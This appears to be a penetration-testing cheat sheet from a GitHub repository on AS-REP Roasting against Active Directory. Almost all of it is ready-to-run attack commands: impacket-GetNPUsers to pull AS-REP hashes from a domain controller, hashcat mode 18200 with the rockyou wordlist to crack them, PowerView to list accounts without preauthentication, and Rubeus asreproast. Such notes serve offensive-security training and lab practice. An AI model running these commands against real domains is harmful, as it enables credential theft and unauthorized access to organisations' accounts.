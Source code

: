 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).
## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus)
Compiled Version [->](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools)

``` powershell
.\Rubeus.exe asreproast /nowrap
```



